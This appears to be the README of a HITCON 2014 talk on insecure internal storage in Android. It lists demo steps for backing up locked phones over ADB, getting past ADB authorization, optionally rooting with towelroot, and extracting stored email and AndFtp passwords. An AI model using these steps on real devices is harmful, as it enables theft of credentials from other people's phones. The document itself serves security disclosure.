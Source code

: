 # What's this?
Here're slides and PoC code for the presentation "Insecure Internal Storage in Android" at HITCON 2014 in Taipei.

# Demos
## Demo 1: Automatically run ADB backup
### Environment
Nexus 4, Android 4.3, locked, ADB enabled, ADB authed.

### Steps
$ ./backup.py com.google.android.email

$ ./extract.py

## Demo 2: Bypass ADB auth
### Environment
Nexus 5, Android 4.4.2, locked, ADB enabled.

ADB NOT authed.

Internet connected.

### Steps
$ adb shell

Slide to camera.

$ adb kill-server

$ adb shell

Click screen.

**(Optional)**

$ adb install tr-mod_signed.apk

$ adb shell am start -n com.geohot.towelroot/.TowelRoot -a android.intent.action.MAIN -c android.intent.category.LAUNCHER

$ adb shell

## Demo 3: Read Email account password
### Environment
Nexus 4, Android 4.3, locked, ADB enabled, ADB authed.

Email logined.

### Steps
$ ./backup.py com.google.android.email

$ ./extract.py

$ ./read_email_account.py

## Demo 4: Read AndrFtp account password
### Environment
Nexus 4, Android 4.3, locked, ADB enabled, ADB authed.

An account is saved in AndFtp

### Steps
$ javac AndFtpDecryptor.java

$ ./backup.py lysesoft.andftp

$ ./extract.py

$ ./read_andftp_account.py

